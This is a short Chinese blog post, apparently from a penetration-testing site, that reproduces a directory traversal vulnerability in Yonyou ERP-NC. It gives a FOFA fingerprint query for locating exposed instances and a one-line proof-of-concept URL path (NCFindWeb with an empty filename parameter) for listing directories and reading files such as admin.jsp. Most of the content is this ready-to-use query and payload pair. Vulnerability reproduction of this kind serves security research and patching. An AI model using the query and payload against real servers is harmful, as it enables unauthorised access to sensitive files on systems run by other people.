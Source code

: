 ```yaml
---
title: ⽤友ERP-NC ⽬录遍历漏洞
top: false
categories:
- 渗透测试
tags:
- 漏洞复现
- 用友ERP-NC
date: 2021-04-29 18:15:26
cover: http://image.geoer.cn/%E7%94%A8%E5%8F%8Bfofa.jpg
---
```


### 漏洞描述

⽤友ERP-NC 存在⽬录遍历漏洞，攻击者可以通过⽬录遍历获取敏感⽂件信息 



### fofa语法

```bash
app="⽤友-UFIDA-NC"
```

![](http://image.geoer.cn/%E7%94%A8%E5%8F%8Bfofa.jpg)



### 复现

POC:

```bash
 /NCFindWeb?service=IPreAlertConfigService&filename=
```

![](http://image.geoer.cn/%E7%94%A8%E5%8F%8B%E4%BA%BApoc1.jpg)

查看文件（这里以admin.jsp为例）：

![](http://image.geoer.cn/%E7%94%A8%E5%8F%8Bpoc.jpg)
